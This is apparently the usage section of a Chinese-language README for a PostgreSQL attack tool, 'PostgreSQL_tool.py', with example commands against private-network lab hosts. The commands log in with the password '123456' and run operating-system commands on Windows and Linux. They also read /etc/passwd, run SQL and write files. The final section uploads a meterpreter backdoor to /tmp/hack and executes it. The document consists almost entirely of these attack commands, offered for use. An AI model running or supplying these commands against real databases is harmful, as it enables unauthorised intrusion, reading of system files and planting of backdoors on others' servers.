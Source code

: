 # 使用

## Windows 主机执行命令

```bash
python3 'PostgreSQL_tool.py' --host "192.168.163.154" -w "123456" -m "rce" -c "ipconfig" -e "GBK"
```

![img.png](img/img.png)

## Linux 主机执行命令

```bash
python3 'PostgreSQL_tool.py' --host "192.168.163.149" -w "123456" -m "rce" -c "id" -e "UTF8"
```

![img.png](img/img2.png)

## Linux 主机读取文件

```bash
python3 'PostgreSQL_tool.py' --host "192.168.163.149" -w "123456" -m "read" -s "/etc/passwd" -e "UTF8"
```

![img_1.png](img/img_1.png)

## 执行 SQL 语句

```bash
python3 'PostgreSQL_tool.py' --host "192.168.163.149" -w "123456" -m "sql" -c "show server_version;" -e "UTF8"
```

![img_2.png](img/img_2.png)


## 写入字符串

```bash
python3 'PostgreSQL_tool.py' --host "192.168.163.149" -w "123456" -m "text_upload" -s "this is test" -t "/tmp/1.txt"
# python3 'PostgreSQL_tool.py' --host "192.168.163.149" -w "123456" -m "rce" -c "cat /tmp/1.txt" -e "UTF8"
```

![img_3.png](img/img_3.png)

## 上传后门程序

上传：

```bash
python3 'PostgreSQL_tool.py' --host "192.168.163.149" -w "123456" -m "bin_upload" -s "/tmp/meterpreter" -t "/tmp/hack"
```

![img_4.png](img/img_4.png)

执行：

```bash
python3 'PostgreSQL_tool.py' --host "192.168.163.149" -w "123456" -m "rce" -c "chmod +x /tmp/hack;/tmp/hack" -e "UTF8"
```

![img_5.png](img/img_5.png)